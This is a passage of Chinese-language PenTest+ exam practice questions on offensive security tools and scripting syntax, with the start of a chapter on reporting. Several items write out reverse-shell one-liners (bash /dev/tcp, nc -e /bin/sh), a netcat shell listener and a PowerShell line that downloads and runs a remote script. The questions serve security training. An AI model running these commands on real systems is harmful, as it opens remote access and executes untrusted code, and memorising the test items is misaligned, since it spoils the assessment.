2. `nmap 10.0.0.5 -sS`
3. `nmap 10.0.0.5 –sV`
4. `nmap 10.0.0.5 –sT`

## 51. 作为渗透测试的一部分，你需要对目标组织进行侦察以被动收集信息。你可以使用哪些工具来执行此操作？（选择两个。）
1. `whois`
2. `Metasploit Framework`
3. `OpenVAS`
4. `nslookup`
5. `Nessus`

## 52. 作为渗透测试的一部分，你需要建立与目标组织计算机系统和设备的活动连接以枚举和指纹识别它们。你可以使用哪些工具来执行此操作？（选择两个。）
1. `whois`
2. `nmap`
3. `hping`
4. `Aircrack-ng`
5. `John the Ripper`

## 53. 作为渗透测试的一部分，你需要从 Linux 服务器的 `passwd` 和 `shadow` 文件中获取用户账户名和密码。你可以使用哪些实用程序来执行此操作？（选择两个。）
1. `John the Ripper`
2. `Cain and Abel`
3. `Kismet`
4. `Censys`
5. `Recon-ng`

## 54. 作为渗透测试的一部分，你需要对目标进行深度扫描以识别漏洞，例如缺失更新或配置错误的安全设置。你可以使用哪些实用程序来执行此操作？
1. `Censys`
2. `theHarvester`
3. `Shodan`
4. `OWASP ZAP`
5. `Nessus`

## 55. 渗透测试人员正在为客户执行灰盒测试。测试人员决定对 SQL 数据库运行暴力破解攻击。可以使用哪个实用程序来执行此操作？
1. `John the Ripper`
2. `SQLmap`
3. `WiFite`
4. `Nikto`

## 56. 渗透测试人员正在为客户执行灰盒测试。测试人员想要尝试生成 Kerberos“黄金票据”以攻陷目标 Active Directory 域内的服务。可以使用哪个实用程序来执行此操作？
1. `Mimikatz`
2. `John the Ripper`
3. `W3AF`
4. `ncat`

## 57. 以下哪些实用程序可以归类为漏洞扫描器？（选择两个。）
1. `Nikto`
2. `SET`
3. `W3AF`
4. `Medusa`
5. `Hydra`

## 58. 以下哪些通常用于执行暴力破解密码攻击？（选择两个。）
1. `BeFF`
2. `Drozer`
3. `W3AF`
4. `Medusa`
5. `Hydra`

## 59. 以下哪些可用于执行暴力破解密码攻击？（选择两个。）
1. `Empire`
2. `Patator`
3. `Powersploit`
4. `Aircrack-ng`
5. `APK Studio`

## 60. 以下哪些渗透工具基于 Windows PowerShell？（选择两个。）
1. `BeEF`
2. `SET`
3. `Empire`
4. `PowerSploit`
5. `Hopper`

## 61. 哪个实用程序用于进行社会工程学利用？
1. `Responder`
2. `SET`
3. `APKX`
4. `Immunity debugger`
5. `Hopper`

## 62. 哪个渗透测试实用程序专注于利用 Web 浏览器？
1. `BeEF`
2. `foremost`
3. `FTK`
4. `EnCase`
5. `Tableau`

## 63. 作为渗透测试的一部分，你想要访问目标 Windows 服务器上的 shell 会话。可以使用哪个实用程序来执行此操作？
1. `Ollydbg`
2. `GDB`
3. `WinDBG`
4. `ncat`

## 64. 作为渗透测试的一部分，你想要反编译目标组织使用的内部开发应用程序的可执行文件。以下哪些工具可用于执行此操作？（选择两个。）
1. `IDA`
2. `Hopper`
3. `route`
4. `Tableau`
5. `FTK`

## 65. 以下哪些工具用于从数字犯罪现场收集和分析证据？（选择两个。）
1. `APKX`
2. `Peach`
3. `foremost`
4. `AFL`
5. `FTK`

## 66. 以下哪些工具可由系统管理员用来确保网络处于配置合规状态？
1. `Nikto`
2. `Tableau`
3. `AFL`
4. `IDA Pro`

## 67. 在黑盒渗透测试期间，你需要使用规避技术来隐藏自己在目标组织系统管理员面前的存在。可以使用哪个工具来执行此操作？
1. `YASCA`
2. `SonarQube`
3. `SAST`
4. `proxychains`

## 68. 以下哪些工具可用于调试或反编译 Android 可执行文件？（选择两个。）
1. `APK Studio`
2. `Olydbg`
3. `Immunity debugger`
4. `APKX`
5. `GDB`

## 69. 以下哪些工具可作为软件保证流程的一部分用于对应用程序执行模糊测试？（选择两个。）
1. `AFL`
2. `Olydbg`
3. `Immunity debugger`
4. `Peach`
5. `GDB`

## 70. 以下哪些工具可作为软件保证流程的一部分用于执行 SAST 和 DAST 测试？（选择两个。）
1. `Findsecbugs`
2. `YASCA`
3. `Metasploit`
4. `theHarvester`
5. `Recon-ng`

## 71. 作为渗透测试人员，你想要通过构建安装了多块视频板的专用系统来提高密码破解速度。哪个工具可以利用多个 GPU 进行密码破解？
1. `proxychains`
2. `John the Ripper`
3. `hashcat`
4. `theHarvester`

## 72. 在渗透测试期间，系统管理员检查 Linux 服务器的日志并注意到数千次不成功的登录尝试。渗透测试人员可能正在使用哪个工具？（选择两个。）
1. `Hydra`
2. `YASCA`
3. `nmap`
4. `Tableau`
5. `Medusa`

## 73. 请考虑以下图像：

使用了哪个渗透测试工具生成此输出？
1. `Maltego`
2. `Medusa`
3. `netcat`
4. `Metasploit`

## 74. 在执行黑盒渗透测试时，测试人员想要爬取目标组织的网站并收集可能被员工用作密码的关键词并将其保存到列表中。测试人员随后将使用该列表运行暴力破解密码实用程序以尝试获得访问权限。应使用哪个实用程序来创建可能的密码文件？
1. `hashcat`
2. `CeWL`
3. `netcat`
4. `Hydra`

## 75. 以下哪个是暴力破解实用程序，可由渗透测试人员用来发现 Web 服务器上的目录和文件？
1. `ncat`
2. `Powersploit`
3. `FOCA`
4. `Dirbuster`

## 76. 请考虑以下图像：

使用了哪个凭证测试工具生成此输出？
1. `John the Ripper`
2. `Hydra`
3. `theHarvester`
4. `Dirbuster`

## 77. 请考虑以下图像：

使用了哪个 OSINT 工具生成此输出？
1. `whois`
2. `Foca`
3. `Maltego`
4. `Censys`

## 78. 作为黑盒渗透测试的一部分，你发现目标组织的无线网络信号辐射到停车场并延伸到街对面。你想要使用此无线网络无线电信号访问内部网络。然而，无线网络是加密的。你可以使用哪些无线入侵工具来执行此操作？（选择两个。）
1. `searchsploit`
2. `netcat`
3. `OWASP ZAP`
4. `WiFite`
5. `Kismet`


## 79. 在灰盒渗透测试期间，测试人员需要在目标组织的 Web 应用程序服务器与运行 Web 浏览器的客户端系统之间代理连接。测试人员可以使用哪些 Web 代理渗透测试工具来实现此目的？（选择两项。）
1. `searchsploit`
2. `Burp Suite`
3. `OWASP ZAP`
4. `Impacket`
5. `Empire`
## 80. 在灰盒渗透测试期间，测试人员希望能够设置一个反向 Shell 漏洞利用，其中目标网络上的受损系统“回连”到测试人员笔记本电脑上设置的监听器，以便测试人员能够远程控制受损系统。可以使用哪种远程访问工具来实现此目的？
1. `netcat`
2. `Responder`
3. `Impacket`
4. `BeEF`
## 81. 哪种远程访问工具是由开发 `nmap` 的组织创建的，作为支持加密数据隧道的 `netcat` 实用程序的更新版本？
1. `Metasploit Framework`
2. `SET`
3. `hping`
4. `ncat`
## 82. 在灰盒渗透测试期间，测试人员希望能够设置一个绑定 Shell 漏洞利用，其中在目标上的受损系统上设置监听器。可以使用哪些远程访问工具来实现此目的？
1. `ncat`
2. `netcat`
3. `Powersploit`
4. `DAST`
5. `SAST`
## 83. 哪种移动工具提供了一个攻击框架，可用于利用运行 Android 操作系统的移动设备？
1. `APKX`
2. `APK Studio`
3. `Drozer`
4. `DAST`
## 84. 哪种移动工具可用于逆向工程运行 Android 操作系统的移动设备上的 APK 文件？
1. `Peach`
2. `APK Studio`
3. `Drozer`
4. `DAST`
## 85. 哪种移动工具是 Python 包装器，可以直接从 Android APK 可执行文件中提取 Java 源代码？
1. `APKX`
2. `AFL`
3. `Drozer`
4. `DAST`
## 86. 哪种渗透测试工具是用于在线 Exploit-DB 已知漏洞数据库的命令行搜索工具？
1. `findbugs`
2. `Shodan`
3. `Censys`
4. `Searchsploit`
## 87. 在灰盒渗透测试期间，测试人员希望能够对目标组织的域控制器进行查询投毒，以便将客户端请求重定向到测试人员的笔记本电脑并捕获用户名和哈希密码。可以使用哪种实用程序来实现此目的？
1. `Searchsploit`
2. `Empire`
3. `Impacket`
4. `Responder`
## 88. 哪种渗透测试工具由用于低级访问网络协议（如 `SMB`）的 Python 类集合组成？
1. `Searchsploit`
2. `Empire`
3. `Impacket`
4. `Responder`
## 89. 哪种渗透测试工具为渗透测试人员提供大量可用于入侵目标组织网络的漏洞利用？
1. `Metasploit Framework`
2. `SET`
3. `hping`
4. `ncat`
## 90. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明变量：
语法：`ServerName = FS1`
这可能是什么类型的脚本？（选择两项。）
1. PowerShell
2. Bash
3. Ruby
4. Python
## 91. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明变量：
语法：`$ServerName = FS1`
这可能是什么类型的脚本？（选择两项。）
1. PowerShell
2. Bash
3. Ruby
4. Python
## 92. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明变量：
语法：`_ServerName = FS1`
这可能是什么类型的脚本？
1. PowerShell
2. Bash
3. Ruby
4. Python
## 93. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明数组：
语法：`PrimeNumArray = [2, 3, 5, 7, 11]`
这可能是什么类型的脚本？（选择两项。）
1. PowerShell
2. Bash
3. Ruby
4. Python
## 94. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明数组：
语法：`PrimeNumArray = (2, 3, 5, 7, 11)`
这可能是什么类型的脚本？
1. PowerShell
2. Bash
3. Ruby
4. Python
## 95. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法声明数组：
语法：`$PrimeNumArray = @(2, 3, 5, 7, 11)`
这可能是什么类型的脚本？
1. PowerShell
2. Bash
3. Ruby
4. Python
## 96. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法引用变量的值：
语法：`echo {$ServerName}`
这可能是什么类型的脚本？
1. PowerShell
2. Bash
3. Ruby
4. Python
## 97. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法引用数组中的第二个值：
语法：`echo {$PrimeNumArray[2]}`
这可能是什么类型的脚本？
1. PowerShell
2. Bash
3. Ruby
4. Python
## 98. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法引用数组中的第二个值：
语法：`echo $PrimeNumArray[2]`
这可能是什么类型的脚本？
1. PowerShell
2. Bash
3. Ruby
4. Python
## 99. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法引用数组中的第二个值：
语法：`print (PrimeNumArray[2])`
这可能是什么类型的脚本？
1. PowerShell
2. Bash
3. Ruby
4. Python
## 100. 在阅读可执行脚本文件时，你在脚本开头附近看到一行使用以下语法引用数组中的第二个值：
语法：`puts PrimeNumArray[2]`
这可能是什么类型的脚本？
1. PowerShell
2. Bash
3. Ruby
4. Python
## 101. 作为灰盒渗透测试的一部分，你需要创建一个 Bash 脚本以对目标组织运行漏洞利用。作为脚本的一部分，你需要在名为 `Target` 的关联数组中将值 `FS1` 插入到名为 `HostName` 的元素中。以下哪行代码可以实现此目的？
1. `Target[HostName] = FS1`
2. `Target = [{"HostName":"FS1"}]`
3. `$Target.HostName = 'FS1'`
4. `_Target = {"HostName" => "FS1"}`
## 102. 作为灰盒渗透测试的一部分，你需要创建一个 Ruby 脚本以对目标组织运行漏洞利用。作为脚本的一部分，你需要在名为 `Target` 的关联数组中将值 `FS1` 插入到名为 `HostName` 的元素中。以下哪行代码可以实现此目的？
1. `Target[HostName] = FS1`
2. `Target = [{"HostName":"FS1"}]`
3. `$Target.HostName = 'FS1'`
4. `_Target = {"HostName" => "FS1"}`
## 103. 作为灰盒渗透测试的一部分，你需要创建一个 PowerShell 脚本以对目标组织运行漏洞利用。作为脚本的一部分，你需要在名为 `Target` 的关联数组中将值 `FS1` 插入到名为 `HostName` 的元素中。以下哪行代码可以实现此目的？
1. `Target[HostName] = FS1`
2. `Target = [{"HostName":"FS1"}]`
3. `$Target.HostName = 'FS1'`
4. `_Target = {"HostName" => "FS1"}`


### 104. 作为灰盒渗透测试的一部分，你需要创建一个 Python 脚本来对目标组织运行利用程序。作为脚本的一部分，你需要在名为 `Target` 的关联数组中将 `FS1` 的值插入到名为 `HostName` 的元素中。以下哪行代码会执行此操作？
1. `Target[HostName] = FS1`
2. `Target = [{"HostName":"FS1"}]`
3. `$Target.HostName = 'FS1'`
4. `_Target = {"HostName" => "FS1"}`

### 105. 作为灰盒渗透测试的一部分，你需要创建一个 Ruby 脚本来对目标组织运行利用程序。作为脚本的一部分，你需要比较两个变量以测试它们是否相等。应使用哪个关系运算符？
1. `=`
2. `==`
3. `-eq`
4. `!=`

### 106. 作为灰盒渗透测试的一部分，你需要创建一个 Python 脚本来对目标组织运行利用程序。作为脚本的一部分，你需要比较两个变量以测试它们是否不相等。可以使用的关系运算符有哪些？（选择两个。）
1. `<>`
2. `==`
3. `-eq`
4. `!=`
5. `-ne`

### 107. 作为灰盒渗透测试的一部分，你需要创建一个 Python 脚本来对目标组织运行利用程序。作为脚本的一部分，你需要比较两个变量以测试它们是否相等。应使用哪个关系运算符？
1. `=`
2. `==`
3. `-eq`
4. `!=`

### 108. 作为灰盒渗透测试的一部分，你需要创建一个 PowerShell 脚本来对目标组织运行利用程序。作为脚本的一部分，你需要比较两个变量以测试它们是否相等。应使用哪个关系运算符？
1. `=`
2. `==`
3. `-eq`
4. `!=`

### 109. 作为灰盒渗透测试的一部分，你需要创建一个 Bash 脚本来对目标组织运行利用程序。作为脚本的一部分，你需要比较两个整数变量以测试其中一个是否数值上大于另一个。应使用哪个关系运算符？
1. `>`
2. `<`
3. `-gt`
4. `!>` 

### 110. 哪个关系运算符可以在 Python 和 Ruby 中同时使用来测试一个值是否数值上大于另一个值？
1. `>`
2. `<`
3. `-gt`
4. `!>` 

### 111. 哪个关系运算符可以在 Bash 和 PowerShell 中同时使用来测试一个值是否数值上大于或等于另一个值？
1. `>=`
2. `-gt`
3. `-ge`
4. `!>=` 

### 112. 哪个关系运算符可以在 Bash 和 PowerShell 中同时使用来测试一个值是否数值上大于另一个值？
1. `>=`
2. `-gt`
3. `-ge`
4. `!>=` 

### 113. 哪个关系运算符可以在 Python 和 Ruby 中同时使用来测试一个值是否数值上大于或等于另一个值？
1. `>=`
2. `-gt`
3. `-ge`
4. `!>=` 

### 114. 哪个关系运算符可以在 Bash 和 PowerShell 中同时使用来测试一个值是否数值上小于另一个值？
1. `<=`
2. `-lt`
3. `-le`
4. `!<` 

### 115. 哪个关系运算符可以在 Python 和 Ruby 中同时使用来测试一个值是否数值上小于另一个值？
1. `<=`
2. `-lt`
3. `-le`
4. `<` 

### 116. 哪个关系运算符可以在 Bash 和 PowerShell 中同时使用来测试一个值是否数值上小于或等于另一个值？
1. `<=`
2. `-lt`
3. `-le`
4. `!<` 

### 117. 哪个关系运算符可以在 Python 和 Ruby 中同时使用来测试一个值是否数值上小于或等于另一个值？
1. `<=`
2. `-lt`
3. `-le`
4. `!<` 

### 118. 你需要创建一个 Bash 脚本来对目标组织运行利用程序。作为脚本的一部分，你需要提示用户输入一个值。哪条命令会接受用户输入的值并将其分配给名为 `TargetHost` 的变量？
1. `echo $TargetHost`
2. `read TargetHost`
3. `readln TargetHost`
4. `input $TargetHost`

### 119. 作为灰盒渗透测试的一部分，你需要创建一个 Bash 脚本来对目标组织运行利用程序。作为脚本的一部分，你需要在屏幕上显示名为 `TargetHost` 的变量的值。哪条命令会执行此操作？
1. `echo $TargetHost`
2. `write TargetHost`
3. `writeln TargetHost`
4. `output $TargetHost`

### 120. 在 Bash 脚本的 if/then 流程控制结构中，可以使用哪条命令来评估指定的条件是否为真？
1. `eval`
2. `==`
3. `test`
4. `<>`

### 121. 考虑以下脚本片段：
```
if _x > 2
   puts "x is greater than 2"
else
   puts "x is less than or equal to 2"
end
```
此片段使用什么脚本语言编写？
1. Ruby
2. PowerShell
3. Bash
4. Python

### 122. 考虑以下脚本片段：
```
If (x -eq 2) {
      'This number is 2'
   } Else {
      'This number is not 2'
}
```
此片段使用什么脚本语言编写？
1. Ruby
2. PowerShell
3. Bash
4. Python

### 123. 考虑以下脚本片段：
```
if test -f $FileName; then
    echo "The file exists."
else
    echo "The file does not exist."
fi
```
此片段使用什么脚本语言编写？
1. Ruby
2. PowerShell
3. Bash
4. Python

### 124. 在 Bash 脚本中，你需要提示用户从 `echo` 命令呈现的七个不同选项中选择一个。哪种控制结构最适合评估用户的输入并运行适当的一组命令？
1. while 循环
2. for 循环
3. until 循环
4. if/then/else
5. case

### 125. 哪种控制结构会一直重复处理，直到指定的条件求值为 false？
1. while 循环
2. for 循环
3. until 循环
4. if/then/else
5. case

### 126. 哪种控制结构被认为是一种流程控制结构？
1. while 循环
2. for 循环
3. until 循环
4. if/then/else

### 127. 哪种控制结构会只要指定的条件求值为 false 就一直重复处理？
1. while 循环
2. for 循环
3. until 循环
4. if/then/else

### 128. 哪种控制结构会处理指定的次数？
1. while 循环
2. for 循环
3. until 循环
4. if/then/else
5. case

### 129. 你需要创建一个 PowerShell 脚本，该脚本会提示用户输入一个值。哪条命令会接受用户输入的值并将其分配给名为 `TargetHost` 的变量？
1. `TargetHost = input('Please enter a hostname:')`
2. `read TargetHost`
3. `TargetHost = gets`
4. `$TargetHost = read-host -Prompt`

### 130. 在 PowerShell 脚本中，哪条命令会使其在屏幕上写入名为 `TargetHost` 的变量的值？
1. `echo $TargetHost`
2. `print (TargetHost)`
3. `writeln TargetHost`
4. `puts TargetHost`

### 131. 你需要创建一个 Ruby 脚本，该脚本会提示用户输入一个值。哪条命令会接受用户输入的值并将其分配给名为 `TargetHost` 的变量？
1. `TargetHost = input('Please enter a hostname:')`
2. `read TargetHost`
3. `TargetHost = gets`
4. `$TargetHost = read-host -Prompt`

### 132. 在 Ruby 脚本中，哪条命令会使其在屏幕上写入名为 `TargetHost` 的变量的值？
1. `echo $TargetHost`


`print (TargetHost)`
`writeln TargetHost`
`puts TargetHost`

# 渗透测试题目

### 133. 你需要创建一个 Python 脚本，该脚本会提示用户输入一个值。哪个命令会接受用户输入的值并将其分配给名为 `TargetHost` 的变量？
1. `TargetHost = input('Please enter a hostname:')`
2. `read TargetHost`
3. `TargetHost = gets`
4. `$TargetHost = read-host -Prompt`

### 134. Python 脚本中哪个命令会导致它在屏幕上写入名为 `TargetHost` 的变量的值？
1. `echo $TargetHost`
2. `print (TargetHost)`
3. `writeln TargetHost`
4. `puts TargetHost`

### 135. 以下哪个元素必须包含在每个 Bash 脚本的开头？
1. `#Comment`
2. `#!/bin/bash`
3. `exit 0`
4. `#begin script`

### 136. 你在 Linux 系统的 home 目录中创建了一个名为 `myexploit` 的 Bash 脚本。如何执行它？（选择两项。）
1. 在 shell 提示符下输入 `/bin/bash ~/myexploit`。
2. 在 shell 提示符下输入 `myexploit`。
3. 在图形桌面中选择 计算机 ➢ 运行；然后输入 `~/ myexploit` 并选择 运行。
4. 在 shell 提示符下输入 `run ~/ myexploit`。
5. 输入 `chmod u+x ~/ myexploit`；然后在 shell 提示符下输入 `~/ myexploit`。

### 137. 哪个 Bash 脚本命令将创建一个名为 `TOTAL` 的新变量并将其类型设置为整数？
1. `variable –i TOTAL`
2. `declare –i TOTAL`
3. `declare TOTAL –t integer`
4. `TOTAL=integer`

### 138. 在 Bash 脚本中，你想将 `tail /var/log/firewall` 命令的标准输出和标准错误发送到当前目录中的名为 `lastevents` 的文件中。你可以在脚本中添加哪个命令来实现这一点？
1. `tail /var/log/firewall 1> lastevents 2> lastevents`
2. `tail /var/log/firewall > lastevents`
3. `tail /var/log/firewall 1> lastevents 2> &1`
4. `tail /var/log/firewall 1&2> lastevents`

### 139. 渗透测试人员想要攻击 NetBIOS 名称服务。最有可能用于利用 NetBIOS 名称服务的命令是什么？
1. `arpspoof`
2. `burpsuite`
3. `nmap`
4. `responder`

### 140. 渗透测试人员想要从公开来源进行开源情报（OSINT）数据收集。以下哪些工具可以使用？（选择两项。）
1. `BeEF`
2. `Dynamo`
3. `Maltego`
4. `SET`
5. `Shodan`
6. `Wireshark`

### 141. 渗透测试人员想要对客户的应用程序执行凭据暴力破解攻击。应使用以下哪些工具？
1. `Hashcat`
2. `Hydra`
3. `John the Ripper`
4. `Peach`

### 142. 渗透测试人员正在尝试攻击一台具有先前识别的用户账户的设备。



正在测试哪种类型的攻击？
1. 凭据转储
2. DLL 注入
3. 通过哈希传递
4. 反向 shell

### 143. 渗透测试人员想要使用 Metasploit。以下哪个命令将启动 Metasploit 数据库？
1. `db_connect`
2. `db_init`
3. `msfconsole`
4. `msfvenom`

### 144. 你是一名渗透测试人员，想要捕获 NTLM v2 哈希以用于通过哈希传递攻击。哪个工具不允许你捕获通过线路传输的 NTLM v2 哈希？
1. `Ettercap`
2. `Mimikatz`
3. `Metasploit`
4. `Responder`

### 145. 渗透测试人员正在进行测试，并通过使用端口 443 进入了一个不受限制的系统网络。测试人员想要从客户端创建反向 shell 回到测试人员。测试人员最有可能使用以下哪种方法？
1. `bash -i >& /dev/tcp/<DESTINATIONIP>/443 0>&1`
2. `nc -e /bin/sh <SOURCEIP> 443`
3. `perl -e 'use SOCKET'; $i='<SOURCEIP>; $p='443;`
4. `ssh superadmin@<DESTINATIONIP> -p 443`

### 146. 在渗透测试期间，以下代码行在被利用机器的历史文件中被发现：
```
bin/bash -i >& /dev/tcp/192.168.0.10/80 0> &1
```
这条命令行最好描述了什么？
1. 已执行端口扫描。
2. 获取 Web 服务器的横幅。
3. 将电传打字机（TTY）重定向到远程系统。
4. 删除给定 IP 的错误日志。

### 147. 测试人员已捕获 NTLM 哈希并想要进行通过哈希传递攻击。不幸的是，测试人员不知道网络上哪些系统可能接受该哈希。测试人员应使用什么工具进行测试？
1. `Drozer`
2. `Hashcat`
3. `Hydra`
4. `Kismet`

### 148. 使用渗透测试的测试人员希望在测试的一部分中部署恶意网站以利用客户员工的浏览器。测试可以使用什么工具？
1. 浏览器利用框架 (`BeEF`)
2. `Metasploit`
3. 开放 Web 应用程序安全项目 (`OWASP`)
4. 社会工程工具包 (`SET`)

### 149. 你是一名渗透测试人员，计划使用客户的网站创建关于客户的常用词和流行语的自定义词表。你可以利用什么工具的名称来协助构建自定义词表？
1. `CeWL`
2. `Hashcat`
3. `Hydra`
4. `Medusa`

### 150. 渗透测试人员正在使用 PowerShell 进行测试。测试人员正在使用以下 PowerShell 命令：
```
powershell.exe IEX (New-Object Net.Webclient).downloadstring([`site/`](http://site/)script.ps1");Invoke-Command
```
此命令执行什么操作？
1. 它执行远程脚本。
2. 它合并一个对象。
3. 它运行编码命令。
4. 它设置执行策略。

### 151. 你是一名渗透测试人员，并且已在计算机上运行了以下 Nmap 扫描：`nmap -sV 192.168.10.5`。客户表示已从其环境中禁用 Telnet。然而，Nmap 扫描结果显示端口 22 已关闭，而端口 23 对 SSH 是开放的。可能发生了什么导致这种情况？
1. 该组织未禁用 Telnet。
2. `nmap` 结果对端口 23 包含误报。
3. 服务正在非标准端口上运行。
4. 端口 22 被过滤。

### 152. 你是一名渗透测试人员，计划使用 hping 命令向远程系统发送流量。当你使用此脚本 `hping remoteclient.com -S -V -p 80` 时，远程系统会看到什么类型的流量？
1. 到 TCP 端口 80 的 HTTP 流量
2. 到 TCP 端口 80 的 HTTPS 流量
3. 到 TCP 端口 80 的 TCP SYN
4. 到 TCP 端口 80 的 TCP 三次握手

### 153. 渗透测试人员正在进行测试并已入侵客户的主机。在此设备上创建 Netcat 侦听器的正确语法是什么？
1. `nc -lp 4444 -e /bin/bash`
2. `nc -lvp 4444 /bin/bash`
3. `nc -p 4444 /bin/bash`
4. `nc -vp 4444 /bin/bash`

### 154. 如果渗透测试人员想要扫描已识别设备上的所有 TCP 端口，必须使用哪个 nmap 开关？
1. `-p- 1-65535`
2. `-p ALX`
3. `-p 1-65544`
4. `-port 1-65534`

### 155. 渗透测试人员想要对客户的外部域进行被动侦察。最佳选择是什么？
1. `CeWL`
2. `OpenVAS`
3. `Peach`
4. `Shodan`

### 156. 渗透测试人员已成功利用似乎正在侦听出站端口的 DM2 服务器。测试人员想要将该流量转发回设备。完成此操作的最佳工具是什么？（选择两项。）
1. `Cain and Abel`
2. `Netcat`
3. `Nmap`
4. 安全 Shell (`SSH`)
5. `Tcpdump`
6. `Wireshark`


### 157.
渗透测试人员正在分析一个脚本，以确定为什么脚本没有按预期返回正确的结果。预期结果应为 True。

```
root:~# cat ./myscript.sh
#!/bin/bash
source=10
let dest=5+5
if [ 'source' = 'dest' ]; then
   echo "True"
else
   echo "False"
fi
#End of File
root:~# ./myscript.sh
False
```

通过审查脚本，测试人员将如何纠正错误以返回正确的结果？（选择两项。）

1. Change `fi` to `Endlf`
2. Remove `let` in front of `dest=5+5`
3. Change the `=` to `-eq`
4. Change `'source'` and `'dest'` to `"$source"` and `"$dest"`
5. Change `'else'` to `'elif'`

### 158.
你是渗透测试人员，想要使用 PowerShell 脚本创建一个数组。你会使用哪行代码？

1. `$ports = 20, 25, 80, 443`
2. `ports = (20,25,80,443)`
3. `ports = [20,25,80,443]`
4. `$ports= [20,25,80,443]`

### 159.
测试人员打算在目标系统上运行以下命令：

`bash -i >& /dev/tcp/10.2.4.6/443 0>&1`

为了使之前的命令生效，测试人员的 Linux 系统上需要执行什么附加命令？

1. `nc -nvlp 443`
2. `nc 10.2.4.6 443`
3. `nc -w3 10.2.4.6 443`
4. `nc -/bin/ah 10.2.4.6 443`

### 160.
在内部渗透测试期间，观察到多个多播和广播名称解析请求在网络中移动。测试人员想要冒充网络资源并收集身份验证请求。应使用什么工具？

1. Ettercap
2. Medusa
3. Tcpdump
4. Responder

### 161.
渗透测试人员使用 `nmap`，被要求使用公司提供的文本文件进行操作系统指纹识别，该文件包含所有 IP 地址的列表。要使用文本文件进行操作系统指纹识别，需要在代码中包含哪些开关？（选择两项。）

1. `-iL`
2. `-O`
3. `-oN`
4. `-oX`
5. `-sS`
6. `-sV`

### 162.
渗透测试人员正在使用 Metasploit。什么命令可以让测试人员从 Internet 访问私有网络？

1. `db_nmp -iL /tmp/privatentwk.txt`
2. `run autoroute -a 192.168.1.10/24`
3. `set rhost 192.168.1.10`
4. `use auxiliary/server/socks4a`

### 163.
你是渗透测试人员，想要在 Windows 网络上捕获用户哈希。你想要收集广播消息，并在捕获哈希后能够使用哈希进行身份验证。应使用什么工具？

1. Impacket
2. Metasploit
3. Responder
4. Wireshark

### 164.
你是渗透测试人员，想要使用 `nmap` 扫描远程系统。你将使用以下命令：

* `nmap 142.78.32.0/24`

你将扫描多少个 TCP 端口？

1. 256
2. 1,000
3. 1,024
4. 65,535

### 165.
你正在编写以下 Python 代码：

```
if 1 == 1:
   print("howdy")
elif 3 == 3:
   print("howdy")
else:
   print("howdy")
```

这段代码会打印多少次单词 *howdy*？

1. 0
2. 1
3. 2
4. 3

### 166.
你是渗透测试人员，想要通过使用各种过滤器搜索客户的计算机和设备，这些计算机和设备已连接到 Internet。可以使用什么工具来实现此目的？

1. Censys
2. Shodan
3. theHarvester
4. Whois

### 167.
你是渗透测试人员，想要搜索客户的计算机和设备，这些计算机和设备已连接到 Internet，并且如果有可用信息会显示 geoIP 信息。可以使用什么工具来实现此目的？

1. Censys
2. Shodan
3. theHarvester
4. Whois

### 168.
你是渗透测试人员，正在对特定客户数据库服务器进行测试。你想要检测数据库服务器上的任何漏洞。哪种工具最能帮助你？

1. Nessus
2. Nikto
3. Sqlmap
4. OpenVAS

# 第 5 章
## 报告与沟通

**本章涵盖的 PENTEST+ 考试主题包括：**

**领域 5：报告与沟通**

*  5.1 给定一个场景，使用报告编写和处理最佳实践。
  * 数据标准化
  * 发现和补救措施的书面报告
    * 执行摘要
    * 方法论
    * 发现和补救
    * 指标和衡量
    * 风险评级
    * 结论
  * 风险承受能力
  * 报告存储时间
  * 报告的安全处理和处置

*  5.2 解释报告交付后的活动。
  * 参与后清理
    * 删除后门
    * 删除测试人员创建的凭据
    * 删除工具
  * 客户验收
  * 经验教训
  * 后续行动/重新测试
  * 发现的证明

*  5.3 给定一个场景，推荐已发现漏洞的缓解策略。
  * 解决方案
    * 人
    * 流程
    * 技术
  * 发现
    * 共享本地管理员凭据
    * 弱密码复杂度
    * 明文密码
    * 无多因素身份验证
    * SQL 注入
    * 不必要的开放服务
  * 补救
    * 随机化凭据/LAPS
    * 最低密码要求/密码过滤器
    * 加密密码
    * 实施多因素身份验证
    * 清理用户输入/参数化查询
    * 系统加固

*  5.4 解释渗透测试过程中沟通的重要性。
  * 通信路径
  * 通信触发器
    * 关键发现
    * 阶段
    * 之前被入侵的指标
  * 通信原因
    * 状况感知
    * 缓解升级
    * 消除冲突
  * 目标重新排序

1. 你刚刚为客户完成了一次渗透测试。在测试期间，你使用了各种不同的工具来收集数据和进行利用。现在你需要将这些工具生成的所有数据汇总成一致、相关且可读的格式。这过程叫什么？

